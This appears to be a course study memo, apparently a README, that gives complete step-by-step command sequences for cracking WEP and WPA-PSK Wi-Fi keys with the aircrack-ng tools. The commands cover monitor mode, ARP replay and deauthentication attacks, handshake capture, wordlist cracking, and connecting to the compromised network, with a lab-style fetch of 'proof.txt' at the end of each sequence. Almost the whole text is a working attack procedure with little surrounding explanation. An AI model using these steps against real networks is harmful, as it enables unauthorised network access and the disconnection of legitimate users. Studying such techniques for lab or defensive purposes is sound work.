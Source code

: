 # WiFi_Hacking_Memo
Quick notes taken from the course around WiFi hacking
## WEP
1.	Place the wireless interface in monitor mode using the Airmon-ng tool
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng tool
```
sudo airodump-ng wlan0mon --wps
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘WEP’
```
sudo airodump-ng -c 11 -b XX:XX:XX:XX:XX:XX -w WEP wlan0mon
```
4.	When the above command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and sent ARP replay packets to the said station using Aireplay-ng, by specifying the targeted station ID
```
sudo aireplay-ng -3 -b XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng
```
sudo aircrack-ng WEP01.cap
```
7.	Once the key is cracked by Aircrack-ng, use iwconfig to connect the compromised wireless network
```
sudo iwconfig wlan0 essid <SSID_name> key <KEY>
```
8.	Refresh the DHCP client configuration and obtain an IP from the AP
```
sudo dhclient wlan0
```
9.	Get the content of the proof.txt file
```
curl http://192.168.1.1/proof.txt
```
## WPA-PSK (Personal)
1.	Place interface in monitor mode using Airmon-ng
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng
```
sudo airodump-ng wlan0mon
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘PSK’
```
sudo airodump-ng --bssid XX:XX:XX:XX:XX:XX --channel 8 --write PSK wlan0mon
```
4.	When the command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and send deauth packets (5) to the said station(s) using Aireplay-ng
```
aireplay-ng -0 5 -a XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully, from the deauthenticated client which reconnected. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng, with a wordlist specific to WPA attacks
```
sudo aircrack-ng PSK-01.cap -w /usr/share/wordlists/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
```
7.	When the key is cracked by Aircrack-ng, use wpa_passphrase to create a configuration file to connect the wireless network
```
wpa_passphrase <SSID_name> <KEY> > wpa.conf
```
8.	Connect to the WiFi network using wpa_supplicant with the configuration generated in step 7
```
wpa_supplicant -B -i wlan0 -c ./wpa.conf
```
9.	Refresh the DHCP client configuration and obtain an IP from the AP using dhclient
```
sudo dhclient wlan0
```
10.	Obtain the content of proof.txt
```
curl http://192.168.1.1/proof.txt
```
